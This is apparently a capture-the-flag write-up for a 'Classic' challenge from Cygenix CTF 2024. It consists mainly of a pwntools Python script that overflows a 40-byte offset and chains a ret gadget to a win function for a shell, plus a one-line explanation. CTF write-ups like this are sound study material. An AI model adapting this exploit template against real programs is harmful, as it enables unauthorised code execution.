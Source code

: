 # Cygenix CTF 2024 - Classic


Every vulnerability is a door, and some doors lead to treasures.

<!--more-->

```python
#setup pwntools
from pwn import *
context(arch='amd64', os='linux')
#context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']

#setup binary
exe = ELF('./main')
p = process(exe.path)
#nc chall.ycfteam.in 3333
#p = remote('chall.ycfteam.in', 3333)
#p = gdb.debug(exe.path)

# Calculate the offset to the return address
offset = 40  # 32 bytes for the buffer + 8 bytes for saved RBP

# Find the address of the win function (replace with the correct function)
win_addr = exe.symbols['win']  # Assuming there's a win function

# Print the win function address
print("win function address: " + hex(win_addr))

# get the ret address
ret_addr = 0x40116C

context.log_level = 'debug'


# Craft the payload
payload = flat(
    b'A' * offset,  # Overflow buffer and overwrite RBP
    ret_addr,       # Overwrite return address with win() function address
    win_addr        # Overwrite return address with win() function address
)


# Print the payload
print(payload)

# Send the payload
p.sendline(payload)

# Interact with the program
p.interactive()
```

## Explanation

Simple ret2win, buffer overflow -> ret -> win -> remote shell

